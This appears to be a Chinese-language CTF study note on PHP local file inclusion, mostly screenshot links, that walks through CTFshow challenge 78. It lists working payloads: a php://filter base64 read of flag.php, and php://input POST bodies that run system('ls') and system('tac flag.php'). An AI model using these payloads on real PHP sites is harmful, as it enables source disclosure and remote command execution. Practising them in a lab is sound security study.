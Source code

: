 ![image-20240425111712923](D:\Infiltration\笔记\note\图片\image-20240425111712923.png)





### 测试网站

本地包含index.php

![image-20240425113024344](D:\Infiltration\笔记\note\图片\image-20240425113024344.png)



本地包含database_connect.php

![image-20240425113209153](D:\Infiltration\笔记\note\图片\image-20240425113209153.png)





### CTFshow-78

![image-20240425130540161](D:\Infiltration\笔记\note\图片\image-20240425130540161.png)

#### 解法一：filter/read

使用filter/read读取相对路径下的flag.php

```
php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20240425130922613](D:\Infiltration\笔记\note\图片\image-20240425130922613.png)

再使用hackbar解码base64，成功拿到flag

![image-20240425131124849](D:\Infiltration\笔记\note\图片\image-20240425131124849.png)

#### 解法二：filter/read

执行php代码查看当前文件

```
php://input
POST请求
<?php system("ls")?>
```

![image-20240425131749363](D:\Infiltration\笔记\note\图片\image-20240425131749363.png)

使用tac查看flag.php

```
php://input
POST请求
<?php system("tac flag.php")?>
```
